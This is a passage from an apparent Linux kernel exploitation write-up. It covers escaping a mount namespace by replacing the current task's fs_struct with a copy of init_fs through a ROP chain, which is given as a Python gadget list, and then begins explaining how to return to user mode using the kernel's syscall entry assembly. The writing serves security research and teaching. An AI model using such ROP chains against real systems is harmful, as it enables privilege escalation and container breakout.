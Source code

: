 Another idea would be to avoid the `setns` detour entirely by performing its essential operations in the ROP chain. Two key operations are happening when changing mount namespaces via the `setns` system call. First, `setns->validate_nsset->validate_ns->mntns_install` changes the filesystem context of the calling thread to that of the namespace it is joining [[26](https://elixir.bootlin.com/linux/v5.10.127/source/fs/namespace.c#L4111)]. Later, `setns->commit_nsset->switch_task_namespaces` updates the namespace recorded in the `task_struct`. Here, the first operation is the interesting one. In a crude approximation, we can try to simulate it by replacing our task's filesystem context with a copy of the `init_fs` used by kernel threads and system processes.
```Python
rop_fs: List[int] = [
   bpf_get_current_task,              # rax = current
   pop_rdi_ret,
   0x6E0,                             # rdi = offsetof(struct task_struct, fs)
   add_rax_rdi_ret,
   push_rax_pop_rbx_ret,              # rbx = &current->fs ; callee saved
   pop_rdi_ret,
   init_fs,
   copy_fs_struct,                    # rax = copy_fs_struct(&init_fs)
   mov_qword_ptr_rbx_rax_pop_rbx_ret, # current->fs = copy_fs_struct(&init_fs)
   -1,
]
```
While this certainly leaves our task in a weird state, it does the job without causing system instability.

What remains is returning to user mode. We could either resume the kernel at the call site where we hijacked the control flow or skip the remaining syscall execution and take a shortcut back to user space. The former requires us to save and restore all callee saved registers that were in use but has the advantage that the kernel code takes care of all the rest. The latter requires careful inspection of the surrounding code to ensure that all necessary resources are released by the ROP chain as well as a special plan for returning to user mode.

When exploiting pipe buffers for code execution, taking the shortcut variant necessitates no further adjustments, thus, that is what we will do. To understand how to leave kernel mode, it is best to start by looking into how it is entered. After switching to the kernel page tables {1} and stack {2}, the system call entry point contains some assembly macro magic to save the user mode CPU context to the bottom of the kernel stack {3} [[27](https://elixir.bootlin.com/linux/v5.10.127/source/arch/x86/entry/entry_64.S#L95)].
```c
SYM_CODE_START(entry_SYSCALL_64)
	UNWIND_HINT_EMPTY

	swapgs
	/* tss.sp2 is scratch space. */
	movq	%rsp, PER_CPU_VAR(cpu_tss_rw + TSS_sp2)
	SWITCH_TO_KERNEL_CR3 scratch_reg=%rsp  // {1}
	movq	PER_CPU_VAR(cpu_current_top_of_stack), %rsp // {2}

SYM_INNER_LABEL(entry_SYSCALL_64_safe_stack, SYM_L_GLOBAL)

	/* Construct struct pt_regs on stack */ // {3}
	pushq	$__USER_DS				/* pt_regs->ss */
	pushq	PER_CPU_VAR(cpu_tss_rw + TSS_sp2)	/* pt_regs->sp */
	pushq	%r11					/* pt_regs->flags */
	pushq	$__USER_CS				/* pt_regs->cs */
	pushq	%rcx					/* pt_regs->ip */
SYM_INNER_LABEL(entry_SYSCALL_64_after_hwframe, SYM_L_GLOBAL)
	pushq	%rax					/* pt_regs->orig_ax */

	PUSH_AND_CLEAR_REGS rax=$-ENOSYS
```
The complementary code is found a bit further down in the same file [[28](https://elixir.bootlin.com/linux/v5.10.127/source/arch/x86/entry/entry_64.S#L571)]. It starts by restoring _most_ of the user-mode registers {4}, switches to a temporary stack {5}, copies the remaining registers over to the new stack {6}, switches back to user page tables {7}, and finally returns to user mode {8}.